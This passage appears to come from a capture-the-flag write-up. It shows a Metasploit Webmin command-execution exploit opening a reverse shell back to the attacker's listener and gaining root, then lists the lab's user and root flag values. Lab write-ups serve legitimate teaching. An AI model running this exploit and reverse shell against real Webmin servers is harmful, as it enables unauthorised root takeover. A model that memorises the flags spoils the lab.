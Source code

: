 Now we can run the exploit and it should give us root access;

```shell
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run

[*] Started reverse TCP double handler on 10.14.49.18:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo fUE20XQ6xhsqMoVm;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.14.49.18:4444 -> 10.10.116.163:53056) at 2023-05-13 09:50:57 +0100


Shell Banner:
fUE20XQ6xhsqMoVm
-----
          
whoami
root
pwd
/usr/share/webmin/file/
cat /root/root.txt
***********************************
```

---

# Trophy & Loot

user.txt
```bash
649ac17b1480ac13ef1e4fa579dac95c
```

root.txt

```bash
a4b945830144bdd71908d12d902adeee
```
